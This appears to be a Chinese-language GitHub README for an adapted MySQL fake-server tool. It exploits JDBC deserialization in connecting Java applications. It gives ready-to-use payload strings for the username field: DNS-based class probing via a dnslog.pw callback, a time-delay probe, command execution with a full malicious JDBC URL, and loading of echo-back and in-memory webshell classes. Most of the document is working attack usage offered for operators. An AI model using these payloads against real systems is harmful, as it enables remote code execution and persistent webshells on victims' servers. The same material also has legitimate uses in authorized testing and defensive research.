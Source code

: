 ### MySQL_Fake_Server-master-啄木鸟yso适配版

原项目：https://github.com/fnmsd/MySQL_Fake_Server

yso地址：https://github.com/woodpecker-framework/ysoserial-for-woodpecker

`JMG`:https://github.com/pen4uin/java-memshell-generator

`JEG`:https://github.com/pen4uin/java-echo-generator


在JDBC反序列化利用过程中出现由于原版yso功能比较单一导致注入内存马的时候比较麻烦所以修改脚本适配ysoserial-for-woodpecker以实现便捷利用漏洞

文件读取未修改

修改userna传参分隔符为‘-’

yso-链-指令

如：yso-CommonsCollections10-sleep:10

#### dns探测class依赖：

```
yso-FindClassByDNS-http://java.lang.String.gpid7sbq.dnslog.pw|java.lang.String
```

![图片](https://github.com/user-attachments/assets/d6d2aaf4-1791-44d2-9705-153450a6adc6)


#### 延时探测class：

实战深度一般在25-28之间，太大会导致dos

```
yso-FindClassByBomb-java.lang.String|28
```

#### 命令执行:

```
url:jdbc:mysql://192.168.157.129:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
username:yso-CommonsCollections10-raw_cmd:calc
```
![图片](https://github.com/user-attachments/assets/fcf9aef2-5701-45d4-9a73-cd6157e6a601)


#### 回显:

class文件由`jEG`生成

```
yso-CommonsCollections10-class_file:/tmp/HttpUtil.class  //class文件在vps的路径
```

![图片](https://github.com/user-attachments/assets/6d256ac3-c10a-4f2d-ab55-577df72fae64)


#### 内存马：

`JMG`生成class

```
yso-CommonsCollections10-class_file:/tmp/DateUtil.class
```

![图片](https://github.com/user-attachments/assets/6d8d6313-f583-44e5-93d4-c730d8041ed6)


文件上传等其他操作参考：

https://github.com/woodpecker-framework/ysoserial-for-woodpecker



